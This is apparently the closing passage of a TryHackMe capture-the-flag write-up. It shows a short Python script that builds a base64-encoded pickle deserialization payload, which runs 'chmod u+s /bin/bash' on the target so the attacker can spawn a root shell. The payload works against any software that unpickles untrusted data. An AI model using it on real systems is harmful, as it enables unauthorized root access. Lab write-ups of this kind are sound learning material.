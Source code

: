 ```python
import pickle
import base64

# Since pickle serialize python object, so we have to create a class for it. 
class Command(object):
    def __reduce__(self):
        import os
        return (os.system,("chmod u+s /bin/bash",))
    
print(base64.b64encode(pickle.dumps(Command())))
```

Once you have the base64 exploit, input to the peak-hill-farm farm, there you can spawn new shell with bash and get the Root !!!

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB




